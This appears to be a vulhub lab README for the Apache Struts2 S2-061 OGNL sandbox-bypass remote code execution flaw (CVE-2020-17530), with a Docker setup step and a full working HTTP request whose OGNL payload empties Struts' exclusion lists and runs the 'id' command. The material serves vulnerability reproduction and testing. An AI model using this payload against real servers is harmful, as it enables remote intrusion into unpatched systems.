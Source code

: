 # Struts2 S2-061 Remote Code Execution Vulnerablity (CVE-2020-17530)

[中文版本(Chinese version)](README.zh-cn.md)

In the versions prior to Struts 2.5.25, when evaluated on raw user input in tag attributes, may lead to remote code execution. 

This vulnerability is the bypass of the OGNL sandbox, which enhance after S2-059.

References:

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## Setup

Start a Struts 2.5.25 server:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see a simple page. It is just a copy application of the [S2-059](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059), except for the different Struts versions.

## Exploit

Send the following request to execute the `id` command:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

It can be seen that the result of the `id` command will be displayed on the page:

![](1.png)
